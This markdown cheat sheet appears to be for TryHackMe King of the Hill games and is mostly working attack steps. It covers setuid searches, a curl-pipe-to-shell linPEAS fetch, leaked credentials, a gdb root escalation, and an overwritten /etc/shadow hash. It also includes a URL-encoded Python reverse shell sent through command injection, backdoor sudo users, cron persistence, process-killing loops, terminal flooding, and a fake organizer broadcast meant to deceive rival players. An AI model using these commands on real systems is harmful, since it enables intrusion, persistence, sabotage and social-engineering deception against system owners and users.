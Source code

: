 start up the in-browser machine a few minutes before game starts. It takes time.

# useful commands
find all admin commands:
`find / -perm -u=s -type f 2>/dev/null`
run linPEAS.sh(tool that finds potential privilege escalation points)
`curl https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS | sh`  

# notable places:  
/dev/urandom - infinite stream of random characters(usually whitespace and non-ascii)  
/dev/zero - infinite stream of zeroes  
/etc/sudoers - place that determines who is sudo  
/etc/shadow - password place   
/etc/passwd - place that stores users  
/root/king.txt - ideally it stays as Happygator  

# machines:
## food:  

food:givemecookies (telnet or ssh)  
ramen:noodlesRTheBest (ssh)  
pasta:pastaisdynamic  
`sudo chmod -xs vim.basic`  
afterwards stuff  
```
while :  
	do  
		sudo pkill -9 -u food  
		sudo pkill -9 -u bread  
		sudo pkill -9 -u tryhackme  
done  
```

profit  


## shrek:  
navigate to <ip>/Cpxtpt2hWCee9VFa.txt  
save the rsa key  
```
chmod 600 <filename>  
ssh -i <filename> shrek@<ip>  
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```  
be root  
copypaste these in place of shrek's account in /etc/shadow  
`shrek:$6$RwIzHJ10kWpv2ynr$92aiv.epBTHF53gJSCgywTU6wAqGjuc1LP7gHaRKdJiKTAuOSHHLYFfZnTVI65U0PucUV7Dq/ntD0Nhcf5.yX1:18333:0:99999:7:::`  
you now have shrek:onionshavelayers  
make shrek a sudoer  
```
sudo chmod 0000 /usr/bin/gdb  
cd .ssh  
rm *
```  
grab the flag if someone else hasn't already  
```
sudo systemctl stop httpd  
sudo systemctl stop tomcat
```  
afterwards stuff        




## space jam:  
```
ncat -lvnp 4444  
curl "<BOX_IP>:3000/?cmd=python%20-  c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22<YOUR_MACHINE_IP>%22%2C4444%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D%29%3B%27"  
LFILE=/root/king.txt  
echo "Happygator" | cp /dev/stdin "$LFILE"
```  
you're king and root  
afterwards stuff  
```
systemctl stop easyaccess  
systemctl stop daemon
```  
change password  
`killall node`(make sure to ssh first)  
`chmod /bin/cp 000`      

???  
profit      




# afterwards stuff:  
sudo useradd technoblade(i typically use password neverdie)  
sudo usermod -aG sudo technoblade  
echo "banana" > /dev/pts/<0 through 9>  
cat /dev/urandom > /dev/pts/<everyone except you> &  
use social engineering wall  

## social engineering wall:
put this in a message.txt file
`This is Irvin. We accidentally used the wrong machine; so we're going to restart this KoTH with the correct machine in order to ensure all teams get a chance. I'll put the correct link once the new machine gets up and running.`
then do:
`sudo wall message.txt`

## script to stay king:
```
sudo crontab -e
```
when the editor pops up put this in and exit  
`* * * * * echo Happygator > /root/king.txt`



